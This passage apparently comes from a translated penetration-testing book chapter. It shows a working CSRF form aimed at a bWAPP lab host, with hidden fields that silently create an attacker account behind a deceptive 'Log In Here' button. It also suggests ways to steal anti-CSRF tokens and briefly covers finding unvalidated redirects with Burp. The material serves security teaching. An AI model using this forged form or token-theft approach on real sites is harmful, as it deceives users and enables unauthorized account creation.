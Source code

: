 ```
        <p><label for="secret">Secret:</label><br />
        <input type="text" id="secret" name="secret" size="40"></p>        
    </td></tr>
    <tr><td>
        <p><label for="mail_activation">E-mail activation:</label>
        <input type="checkbox" id="mail_activation" name="mail_activation" value="">
    </td></tr>
    </table>
    <button type="submit" name="action" value="create">Create</button>
</form>
```

现在，为了特别隐蔽，我们需要确保没有人接收到这个页面理解我们让他们做的事情。诀窍是隐藏字段并利用隐藏的属性将我们的请求通过他们的好奇检查。我可以通过修改源代码来消除所有标签并隐藏所有用户输入，除了一个`submit`按钮，同时在用户不知道的情况下嵌入我想要的凭证：

```
<form action="http://172.16.30.129/bWAPP/user_extra.php" method="GET">
        <input type="hidden" id="login" name="login" value="test1"></p>
        <input type="hidden" id="email" name="email" value="test1@example.com"></p>
        <input type="hidden" id="password" name="password" value="dude"></p>
        <input type="hidden" id="password_conf" name="password_conf" value="dude"></p>
        <input type="hidden" id="secret" name="secret" size="40" value="Hello Hackers"></p>
        <input type="hidden" id="mail_activation" name="mail_activation" value="">
        <button type="submit" name="action" value="create">Log In Here</button>
</form>
```

这将产生一个页面，当受害者加载时，该页面看起来像下面的屏幕截图所示。我们可以让那个按钮看起来像任何东西（**`win $1M here!`****`Verify Email`****`Register for seminar`**都是可行的选项）。如果我们愿意，这甚至可以作为链接嵌入到图片中；我们的目标是设计一些外观纯真、与用户预期行为相关的东西。

![](https://www.packtpub.com/img/9781784395070/img/B03918_10_12.png)

简单的登录页面，对吗？

当用户点击此按钮时，我们将看到，拥有帐户创建权限的可怜的、经过身份验证的受害者刚刚为我们创建了一个帐户，如下面的屏幕截图所示！这里的关键是要知道需要哪些字段。OSIT 可以提供帮助，因为新员工的说明和帮助门户通常会在几乎没有保护的情况下提供这些信息。我们还可以根据组织内的其他趋势做出一些有根据的猜测。

![](https://www.packtpub.com/img/9781784395070/img/B03918_10_13-1.png)

帐户已创建，谢谢！

应该注意的是，CSRF 是黑客和防御者之间非常活跃的猫捉老鼠创新领域。反 CSRF 令牌已成为保护用户的一种手段；但是，正如我们在本书中看到的所有漏洞一样，执行往往是最薄弱的环节。在使用反 CSRF 令牌的情况下，黑客（和我们）可以尝试在我们的 CSRF 页面中使用 JavaScript 来捕获客户端拥有的任何反 CSRF 令牌，并将其滑入我们的 GET 或 POST 请求中，以确保我们逃避这种保护。更好的反 CSRF 实现将通过实现时间和上下文驱动的令牌来防止这种情况，但如果它们不这样做，则有相当大的可能性绕过这些控制。**  **### 相信我，我知道路！

对于如此之长的名称，未经验证的重定向和转发漏洞使网站暴露于可笑的小规模黑客攻击中，使得攻击者能够将用户重定向到恶意或至少是无意的网站。我们可以使用自动化工具（如 Burp 或 ZAP）扫描站点，这将通过使用完整站点路径或长重定向响应的页面等赠品（这两种工具都可以在该站点上看到，如下面的屏幕截图所示）来挖掘潜力或者只是尝试在浏览器中指定 URL 的扩展或修改：

![](https://www.packtpub.com/img/9781784395070/img/B03918_10_14.png)

BurpSuite 扫描显示未验证的重定向和转发漏洞

当您将鼠标悬停在页面上的链接上时，大多数网站仍然允许查看 URL，下面的屏幕截图中显示了此处*的相关链接*。这是在 OSIT 工作期间直观发现此类风险的一种简单方法。

![](https://www.packtpub.com/img/9781784395070/img/B03918_10_15.png)
